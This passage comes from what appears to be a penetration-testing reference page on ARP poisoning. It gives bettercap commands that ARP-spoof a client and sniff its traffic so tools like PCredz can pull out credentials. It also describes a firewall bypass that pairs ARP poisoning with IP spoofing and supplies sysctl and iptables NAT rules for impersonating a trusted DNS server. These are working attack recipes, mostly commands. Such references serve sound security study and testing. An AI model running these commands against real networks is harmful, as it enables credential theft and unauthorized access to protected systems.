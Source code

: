 
=== Dumping network secrets

Start [PCredz](https://github.com/lgandx/PCredz) or Wireshark then start the poisoning attack


```bash
# quick recon of the network
net.probe on

# set the ARP poisoning
set arp.spoof.targets $client_ip
set arp.spoof.internal true
set arp.spoof.fullduplex true

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff.mdns

# start the modules
arp.spoof on
net.sniff on
```


:::


::: details Alternative using `arpspoof` tool - Firewall Bypass scenario
#### Combining ARP poisoning and IP spoofing to bypass firewall

The goal of this attack is to bypass the firewall protecting a sensitive network and be able the access an asset there. 

To do so, the attacker's machine sits as MITM between the DNS server (referred to as the target of the ARP Spoofing, which is authorized to communicate with the sensitive asset in the protected network), and the firewall controlling the access to the protected network.\
In addition to this, the attacker spoofs the IP address of the DNS server when communicating with the sensitive asset and tags its traffic through dynamic ports to be able to track it and handle the response to its spoofed requests. 

Below is a diagram to visualize the attack:

![Bypass WAF through ARP spoofing and IP Spoofing - attack diagram](assets/arpspoofandipspoof.png)

IP spoofing 

This part is done using [iptables](https://www.djack.com.pl/Suse9hlp/ch26s03.html) NAT rules.


```
# As refered to above, IP forwarding need to be enabled otherwise attacker's machine will drop the packets not containing its IP address as destination
sysctl net.ipv4.ip_forward=1
# Change the source port range of the attacker host, this is only to make sure port range size is the same as the one of the spoofed traffic (20000-30000)
echo "40000 50000" > /proc/sys/net/ipv4/ip_local_port_range 
# Spoof the source IP address of the outgoing traffic and modify the source ports to tag the spoofed traffic.
iptables -t nat -A POSTROUTING -s "ATTACKER_IP"/32 -o "NETWORK_INTERFACE" -p tcp -j SNAT --to-source "TARGET_IP":20000-30000
# Identify the response to the spoofed traffic and change destination IP of the target to the one of the attacker's host
iptables -t nat -A PREROUTING -d "TARGET_IP"/32 -i "NETWORK_INTERFACE" -p tcp -m tcp --dport 20000:30000 -j DNAT --to-destination "ATTACKER_IP":40000-50000

```
